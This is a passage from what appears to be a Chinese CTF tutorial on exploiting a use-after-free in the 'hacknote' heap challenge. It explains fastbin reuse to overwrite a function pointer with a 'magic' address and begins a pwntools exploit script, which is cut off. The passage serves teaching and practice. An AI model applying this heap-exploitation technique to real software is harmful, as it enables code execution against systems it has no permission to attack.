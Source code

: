 ### 利用分析 

我们可以看到 Use After Free 的情况确实可能会发生，那么怎么可以让它发生并且进行利用呢？需要同时注意的是，这个程序中还有一个 magic 函数，我们有没有可能来通过 use after free 来使得这个程序执行 magic 函数呢？**一个很直接的想法是修改 note 的 put 字段为 magic 函数的地址，从而实现在执行 print note 的时候执行 magic 函数。** 那么该怎么执行呢？

我们可以简单来看一下每一个 note 生成的具体流程

1. 程序申请 8 字节内存用来存放 note 中的 put 以及 content 指针。

2. 程序根据输入的 size 来申请指定大小的内存，然后用来存储 content。

   ```
      +-----------------+                       
      |   put           |                       
      +-----------------+                       
      |   content       |       size              
      +-----------------+------------------->+----------------+
                                             |     real       |
                                             |    content     |
                                             |                |
                                             +----------------+
   ```

那么，根据我们之前在堆的实现中所学到的，显然 note 是一个 fastbin chunk（大小为 16 字节）。我们的目的是希望一个 note 的 put 字段为 magic 的函数地址，那么我们必须想办法让某个 note 的 put 指针被覆盖为 magic 地址。由于程序中只有唯一的地方对 put 进行赋值。所以我们必须利用写 real content 的时候来进行覆盖。具体采用的思路如下

- 申请 note0，real content size 为 16（大小与 note 大小所在的 bin 不一样即可）
- 申请 note1，real content size 为 16（大小与 note 大小所在的 bin 不一样即可）
- 释放 note0
- 释放 note1
- 此时，大小为 16 的 fast bin chunk 中链表为 note1->note0
- 申请 note2，并且设置 real content 的大小为 8，那么根据堆的分配规则
- note2 其实会分配 note1 对应的内存块。
- real content 对应的 chunk 其实是 note0。
- 如果我们这时候向 note2 real content 的 chunk 部分写入 magic 的地址，那么由于我们没有 note0 为 NULL。当我们再次尝试输出 note0 的时候，程序就会调用 magic 函数。

### 利用脚本 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./hacknote')


def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))


def printnote(idx):
    r.recvuntil(":")
```